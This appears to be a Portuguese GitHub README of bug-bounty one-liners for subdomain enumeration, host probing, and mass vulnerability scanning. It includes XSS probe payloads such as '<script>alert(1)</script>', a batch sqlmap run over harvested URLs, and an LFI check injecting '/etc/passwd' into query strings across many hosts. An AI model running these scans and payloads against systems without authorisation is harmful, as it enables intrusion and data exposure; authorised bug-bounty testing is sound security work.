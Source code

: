 # Liners_bounty
UMA SÉRIE DE ONELINERS PARA BUG BOUNTY

[Blog do Eike](https://ei7hacker.blogspot.com/)

[HTTPX](https://github.com/projectdiscovery/httpx)

[SUBFINDER](https://github.com/projectdiscovery/subfinder)

[HTTPROBE](https://github.com/tomnomnom/httprobe)

[ASSETFINDER](https://github.com/tomnomnom/assetfinder)

[ANEW](https://github.com/tomnomnom/anew)

[waybackurls](https://github.com/tomnomnom/waybackurls)

[FREQ](https://github.com/takshal/freq)

[AIRIXSS](https://github.com/ferreiraklet/airixss)

[GF](https://github.com/tomnomnom/gf)

### subdominios
```bash
 subfinder -d yahoo.com -o domains ; echo "yahoo.com" | assetfinder | tee -a domains ; wait ; cat domains | anew subs
```
### hosts 
```bash
subfinder -d hackerone.com | httpx  -o hosts

echo "hackerone.com" | assetfinder | httprobe | tee -a hosts

```
### status-code 
```bash
subfinder-d yahoo.com | httpx -status-code

subfinder-d yahoo.com | httpx -status-code -mc 200

subfinder-d yahoo.com | httpx -status-code -mc 300
```
### FIND XSS WITH FREQ AND QSREPLACE

```bash
echo "exemplo.com" | waybackurls | grep "=" | qsreplace "<script>alert(1)</script>" | freq 
```
### FIND WITH AIRIXSS

```bash
echo "exemplo.com" | waybackurls | gf xss | qsreplace "<svg onload=alert(1)>" | Airixss -payload "alert(1)" | egrep -v "Not"
```
###  FIND MASSIVE SQLI
```bash
waybackurls http://testphp.vulnweb.com | gf sqli | tee -a sqli.txt ; wait ; sqlmap -m sqli.txt --batch --random-agent --level 1
```
###  FIND LFI WITH GAU
```
gau HOST | gf lfi | qsreplace "/etc/passwd" | xargs -I% -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"'
```
